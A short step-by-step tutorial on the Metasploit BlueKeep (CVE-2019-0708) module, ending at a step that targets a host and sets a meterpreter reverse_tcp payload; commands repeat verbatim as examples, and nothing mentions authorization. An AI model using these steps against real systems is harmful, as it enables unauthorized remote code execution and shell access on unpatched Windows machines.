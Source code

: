 The BlueKeep exploit is a known vulnerability (CVE-2019-0708) affecting Microsoft Remote Desktop Services. The exploit allows unauthenticated remote code execution on vulnerable systems. Here’s a guide to using BlueKeep exploit tools, including options and examples.

### **BlueKeep Exploit (CVE-2019-0708)**

#### **Using Metasploit Framework for BlueKeep**

1. **Search for BlueKeep Exploit:**
   - **Description:** Search for the BlueKeep exploit module in Metasploit.
   - **Command:**
     ```bash
     search bluekeep
     ```
   - **Example:**
     ```bash
     search bluekeep
     ```

   - **Explanation:** 
     - Lists available modules related to BlueKeep.

2. **Use BlueKeep Exploit Module:**
   - **Description:** Select the BlueKeep exploit module.
   - **Command:**
     ```bash
     use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
     ```
   - **Example:**
     ```bash
     use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
     ```

   - **Explanation:** 
     - Chooses the BlueKeep exploit module for Remote Desktop Services.

3. **Show Module Options:**
   - **Description:** Display the options for the BlueKeep exploit module.
   - **Command:**
     ```bash
     show options
     ```
   - **Example:**
     ```bash
     show options
     ```

   - **Explanation:** 
     - Lists configuration options required for the exploit.

4. **Set Exploit Options:**
   - **Description:** Configure required options for the exploit.
   - **Command:**
     ```bash
     set RHOSTS <target_ip>
     ```
   - **Example:**
     ```bash
     set RHOSTS 192.168.1.100
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     ```
